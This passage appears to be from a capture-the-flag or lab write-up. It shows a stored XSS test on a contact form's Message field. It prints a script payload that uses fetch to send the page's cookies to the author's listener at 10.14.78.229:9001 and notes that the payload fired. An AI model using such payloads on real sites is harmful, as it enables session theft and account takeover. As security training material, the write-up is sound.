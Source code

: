 ![](/assets/blog/Sequence/page1.png)

The contact page allows you to send various data fields which may be vulnerable to XSS.

![](/assets/blog/Sequence/page2.png)

To test if the page is vulnerable to XSS, I used the `<script>` tag followed by a simple fetch function which calles back to my listener. Additionally I appended the cookies to get the session cookie.

```html
<script>fetch("http://10.14.78.229:9001/"+document.cookie)</script>
```

After crafting the payload I pasted the payload in the *Message* field which looked most promising for XSS. Once the payload was send it took around 10s until the payload hit my listener.

![](/assets/blog/Sequence/xss1.png)